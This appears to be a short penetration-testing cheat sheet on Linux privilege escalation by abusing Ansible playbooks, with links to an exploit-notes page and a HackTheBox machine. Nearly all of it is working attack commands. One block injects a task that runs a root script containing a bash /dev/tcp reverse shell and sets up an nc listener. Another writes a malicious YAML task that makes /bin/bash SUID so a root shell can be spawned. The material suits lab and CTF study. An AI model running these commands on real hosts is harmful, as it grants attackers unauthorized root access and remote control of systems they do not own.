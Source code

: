 ```yaml
---
description: Ansible Playbooks are lists of tasks that automatically execute against hosts.
---
```


# Ansible

[https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)

### [PrivEsc with Tasks](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/#privesc-with-tasks) <a href="#privesc-with-tasks" id="privesc-with-tasks"></a>

{% code overflow="wrap" %}
```bash
# Create a yml file under /opt/ansible/playbooks. You see a geerlingguy.apache role defined. 

- name: Install and configure Apache
  ...
  roles:
    - role: geerlingguy.apache
  tasks:
    - name: configure firewall
      firewalld:
        ...

# Go to the dirctory /opt/ansible/roles/geerlingguy.apache/tasks, and add a new exploitable file in the directory.

- hosts: localhost
  tasks:
    - name: RShell
      command: sudo bash /tmp/root.sh
      
# Then creat a reverse shell in root.sh
echo '/bin/bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1' > /tmp/root.sh

# 
nc -lvnp <local-port>

# Execute
sudo ansible
sudo -u <user> ansible
# or wait for a root runs the ansible background.
```
{% endcode %}



### Automation Task

[https://www.hackthebox.com/machines/inject](https://www.hackthebox.com/machines/inject)

If the target system runs automation tasks with Ansible Playbook as root and we have a write permission of task files (**`tasks/`**), we can inject arbitrary commands in **yaml** file.

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Create or overwrite a YAML malicious file.
echo "[{hosts: localhost, become: true, tasks: [shell: chmod +s /bin/bash]}]" > /opt/automation/tasks/pe.yml

# wait for pe.yml to be executed
# Run and then you are root. 
/bin/bash -p 
```
{% endcode %}

###
